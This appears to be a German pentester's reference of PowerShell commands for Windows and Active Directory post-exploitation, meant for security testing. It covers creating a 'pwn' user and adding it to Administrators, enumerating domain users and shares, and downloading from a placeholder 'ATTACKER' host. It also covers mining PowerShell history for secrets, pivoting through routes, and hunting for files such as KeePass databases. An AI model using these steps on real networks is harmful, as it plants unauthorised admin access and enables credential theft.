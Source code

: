 
## Powershell Benutzer erstellen

```powershell
New-ADUser -Name "pwn" -SamAccountName "pwn" -AccountPassword (ConvertTo-SecureString "<pass>" -AsPlainText -Force) -Enabled $true -Description "pwnage"
```

[[#Powershell Benutzer zu Gruppe hinzufügen]]

## Powershell Benutzerliste erstellen

```powershell
get-domainuser | select samaccountname | out-file -encoding utf8 user_list.txt
```

## Powershell Benutzer zu Gruppe hinzufügen

[[#Powershell Benutzer erstellen]]

```powershell
Add-LocalGroupMember -Group Administrators -Member "pwn"
```

## Powershell Berechtigungen

```powershell
icacls "C:\PATH\TO\FILE"
```

## Powershell Credentials

### Credential Objekt erstellen

```powershell
$SecPassword = ConvertTo-SecureString 'Password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USER', $SecPassword)
```

### One-Liner Ersatz für $cred

```powershell
(New-Object System.Management.Automation.PSCredential ("USER", (ConvertTo-SecureString "PASS" -AsPlainText -Force)))
```

## Powershell Domain Shares

Vorraussetzungen:
- [[#Credential Objekt erstellen]]

```powershell
Find-DomainShare -Domain testlab.local -CheckShareAccess -Credential $Cred
```

## Powershell Download Datei

```powershell
iwr http://ATTACKER/file -o file
```

## Powershell History

```powershell
(Get-PSReadlineOption).HistorySavePath
# View file with type PATH/TO/FILE
type PATH
# Try
type (Get-PSReadlineOption).HistorySavePath 
```

## Powershell Kerberos

### Kerberos Tickets anzeigen

```powershell
klist
```

## Powershell Neustart

```powershell
shutdown /r /t 0
```
## Powershell Remoting

Vorraussetzungen:
- [[#Powershell Credentials]]

Ein anderes Feature von WinRM ist Powershell remoting. Wie der Name sagt eine Powershell Session auf einem anderen System.

```powershell
# Session initiieren
New-PSSession -ComputerName IPADDRESS -Credential $Cred

# Zum interagieren mit der Session muss diese betreten werden
Enter-PSSession SESSID
```

## Powershell Routen

```powershell
route add ZIELNETZ mask ZIELMASK GATEWAY
```

## Powershell Suche

### Suche nach Dateien mit Dateiendung

```powershell
Get-Childitem -Path C:\search\me -Include *.txt,*,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.exe,*.bat,*.kdbx -File -Recurse -ErrorAction SilentlyContinue
```